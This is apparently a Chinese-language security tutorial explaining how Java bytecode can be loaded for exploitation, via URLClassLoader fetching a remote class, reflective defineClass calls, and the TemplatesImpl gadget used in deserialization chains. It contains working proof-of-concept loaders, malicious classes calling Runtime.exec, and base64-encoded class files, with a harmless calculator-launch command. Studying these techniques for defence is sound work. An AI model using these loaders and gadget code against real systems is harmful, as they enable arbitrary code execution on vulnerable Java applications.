


# Java 字节码定义
> `Java`字节码(ByteCode)指的是`Java`虚拟机执行使用的一类指令，通常被存储在`.class`文件中

> 虚拟机提供商发布了许多可以运行在不同平台上的`JVM`虚拟机，这些虚拟机都拥有一个共同的功能，那就是可以载入和执行同一种与平台无关的字节码(ByteCode)，源代码不再必须根据不同平台翻译成`0`和`1`，而是间接翻译成字节码，储存字节码的文件再交由运行于不同平台上的`JVM`虚拟机去读取执行，从而实现一次编写到处运行的目的，源代码中的各种变量，关键字和运算符号的语义最终都会编译成多条字节码命令，而字节码命令所能提供的语义描述能力是要明显强于`Java`本身的，所以有其他一些同样基于`JVM`的语言能提供许多`Java`所不支持的语言特性


# 利用 URLClassLoader 加载远程 class 文件
> `URLClassLoader`实际上是平时默认使用的`AppClassLoader`的父类，正常情况下`Java`会根据配置项`sun.boot.class.path`和`java.class.path`中列举到的基础路径（这些路径是经过处理后的`java.net.URL`类）来寻找`.class`文件来加载，而这个基础路径又分为三种情况

```java
[1] URL未以斜杠/结尾，则认为是一个JAR文件，使用JarLoader来寻找类，即为在Jar包中寻找.class文件
[2] URL以斜杠/结尾，且协议名是file，则使用FildLoader来寻找类，即为在本地系统中寻找.class文件
[3] URL以斜杠/结尾，且协议名不是file，则使用最基础的Loader来寻找类
```

> 要利用基础的`Loader`类来寻找这一点必须是非`file`协议的情况下——`JAVA`默认提供了对`file`,`ftp`,`gopher`,`http`,`https`,`jar`,`mailto`,`netdoc`协议的支持

> 利用`http`协议来进行测试

```java
恶意类

package URLClassLoaderDemo;

import java.io.*;
/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 4:25 下午
 */
public class Evil {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("open -a /System/Applications/Calculator.app");
    }
}
```
> 远程`HTTP`服务器代码

```java
package URLClassLoaderDemo;

import java.net.URL;
import java.net.MalformedURLException;
import java.net.URLClassLoader;
import java.lang.ClassNotFoundException;
import java.lang.InstantiationException;
import java.lang.IllegalAccessException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 3:22 下午
 */
public class HttpServer {
    public static void main(String[] args) throws IllegalAccessException, InstantiationException, MalformedURLException, ClassNotFoundException {
        URL[] urls = {new URL("http://localhost:2222/")};
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        Class _class = loader.loadClass("Evil");
        _class.newInstance();
    }
}
```


# 利用 ClassLoader#defineClass 直接加载字节码文件
> 不管是加载远程`class`文件还是本地的`class`或`jar`文件，`Java`都经历的是下面这三个方法的调用: `ClassLoader#loadClass-->ClassLoader#findClass->ClassLoader#defineClass`



```java
[1] loadClass的作用是从已加载的类缓存，父加载器等位置寻找(双亲委派机制)，在前面没有找到的情况下，执行findClass
[2] findClass的作用是根据URL指定的方式来加载类的字节码，可能会在本地系统，jar包或远程http服务器上读取字节码，然后将其交给defineClass
[3] defineClass的作用是处理前面传入的字节码，将其处理成真正的Java类
```

> 先编译一下恶意类的`.class`文件，然后用`defineClass`去加载它
> 需要注意的是：`ClassLoader#defineClass`返回的类并不会初始化，只有这个对象显式地调用其构造函数初始化代码才能被执行，所以需要想办法调用返回的类的构造函数才能执行命令；在实际场景中，因为`defineClass`方法作用域是不开放的，所以攻击者很少能直接利用到它，但它却是常用的一个攻击链`TemplatesImpl`的基石

```java
package URLClassLoaderDemo;

import java.lang.reflect.Method;

import java.lang.*;
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 5:05 下午
 */
public class DefineClassLoader {
    public static void main(String[] args) throws IOException, ClassNotFoundException, IllegalAccessException, InstantiationException, NoSuchMethodException, InvocationTargetException {
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAHAoABgAPCgAQABEIABIKABAAEwcAFAcAFQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAWAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwABwAIBwAXDAAYABkBACtvcGVuIC1hIC9TeXN0ZW0vQXBwbGljYXRpb25zL0NhbGN1bGF0b3IuYXBwDAAaABsBAARFdmlsAQAQamF2YS9sYW5nL09iamVjdAEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAABAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAABwAEAAgADQAJAAsAAAAEAAEADAABAA0AAAACAA4");
        Class Evil = (Class)defineClass.invoke(ClassLoader.getSystemClassLoader(), "Evil", code, 0, code.length);
        Evil.newInstance();
    }
}
```


# 利用TemplatesImpl加载字节码
> 在很多`Java`反序列化利用链，以及`fastjson`、`jackson`的漏洞中，都曾出现过`TemplatesImpl`的身影，虽然大部分上层开发者不会直接使用到`defineClass`方法，同时`java.lang.ClassLoader`的`defineClass`方法作用域是不开放的（protected），但是`Java`底层还是有类（例如`TemplatesImpl`）利用到了它

> 这个`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`类里面定义了一个内部类：`TransletClassLoader`

> 可以看到这个类是继承`ClassLoader`的，同时它也重写了`defineClass`方法，并且没有显式地定义方法的作用域，在`Java`中默认情况下，如果一个方法没有显式声明作用域，其作用域为`default`，因此也就是说这里的`defineClass`由其父类的`protected`类型变成了一个`default`类型的方法，从而可以被类外部调用


> 在前面分析`TemplatesImpl`时已经了解了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`中关于`TransletClassLoader#defineClass()`的调用栈有如下两条

```java
[1] TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()->TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()  

[2] TemplatesImpl#getOutputProperties() ->TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()->TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```

> 最前面两个方法`TemplatesImpl#getOutputProperties()`，`TemplatesImpl#newTransformer()`的作用域是`public`，可以被外部调用，尝试用`new Transformer()`来构造一个简单的`POC`

```java
package URLClassLoaderDemo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.*;
import java.io.*;
import java.lang.reflect.Field;
import javax.xml.transform.*;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 5:39 下午
 */
public class TemplatesImplLoader {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, TransformerConfigurationException {
        String shell = "yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAbAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEAClNvdXJjZUZpbGUBAB5FdmlsT2ZUZW1wbGF0ZXNsbXBsTG9hZGVyLmphdmEMAAcACAcAHAwAHQAeAQApb3BlbiAtYSAvU3lzdGVtL0FwcGxpY2F0aW9ucy9UZXh0RWRpdC5hcHAMAB8AIAEALFVSTENsYXNzTG9hZGVyRGVtby9FdmlsT2ZUZW1wbGF0ZXNsbXBsTG9hZGVyAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAADwAEABAADQARAAsAAAAEAAEADAABAA0ADgACAAkAAAAZAAAAAwAAAAGxAAAAAQAKAAAABgABAAAAFQALAAAABAABAA8AAQANABAAAgAJAAAAGQAAAAQAAAABsQAAAAEACgAAAAYAAQAAABkACwAAAAQAAQAPAAEAEQAAAAIAEg==";
        byte[] shellCode = Base64.getDecoder().decode(shell);

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = c1.getDeclaredField("_name");
        Field _bytecode = c1.getDeclaredField("_bytecodes");
        Field _tfactory = c1.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, new byte[][]{shellCode});
        _tfactory.set(templates, new TransformerFactoryImpl());

        templates.newTransformer();
    }
}
```



> 这里`_tfactory`需要是一个`TransformerFactoryImpl`对象，因为`TemplatesImpl#defineTransletClasses()`方法里有调用到`_tfactory.getExternalExtensionsMap()`，如果值是`null`的话会出错


> 另外值得注意的是，`TemplatesImpl`中对加载的字节码是有一定要求的：这个字节码对应的类必须是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`的子类，例如恶意类的代码如下

```java
package URLClassLoaderDemo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;
/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 5:52 下午
 */
public class EvilOfTemplateslmplLoader extends AbstractTranslet {
    public EvilOfTemplateslmplLoader() throws IOException {
        Runtime.getRuntime().exec("open -a /System/Applications/TextEdit.app");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```